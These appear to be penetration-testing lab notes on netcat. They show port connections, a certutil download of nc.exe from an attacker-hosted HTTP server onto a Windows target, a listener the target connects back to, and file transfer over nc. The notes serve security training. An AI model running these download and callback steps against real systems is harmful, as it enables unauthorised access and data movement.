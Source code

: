 ```bash
# Help and Man pages
netcat --help
man nc
```

```bash
# Debian based distro - install
sudo apt update && sudo apt install -y netcat
```

> 🔬 Some HFS Lab commands

```bash
nc <TARGET_IP> <TARGET_PORT>
nc -nv 10.2.23.227 80 #best and simple combination
# -n = no DNS resolution
# -v = verbose

nc -nvu 10.2.23.227 445
# -u = UDP port
```

**Setup a listener**:

* Transfer `nc.exe` to the windows target

```bash
# Attacker machine
ip -br -c a
	10.10.24.4/24
cd /usr/share/windows-binaries/
python -m SimpleHTTPServer 80


# Target machine
cd Desktop
certutil -urlcache -f http://10.10.24.4/nc.exe nc.exe
```

* Setup a listener on the attacker machine

```bash
# Attacker machine
nc -nvlp 1234
nc -nvlup 1234 # listen on a UDP port


# Target machine
nc.exe -nv 10.10.24.4 1234
nc.exe -nvu 10.10.24.4 1234

# A connection is received on the Attacker machine
```

* Transfer files with `nc`

```bash
# A listener must be present on the target system. any messgaes incomming will be saved in test.txt
# Target machine
nc.exe -nvlp 1234 > test.txt

# Attacker machine
# create a text file to send
echo "Hello target" > test.txt

#Transfer the file 
nc -nv 10.2.23.227 1234 < test.txt
```
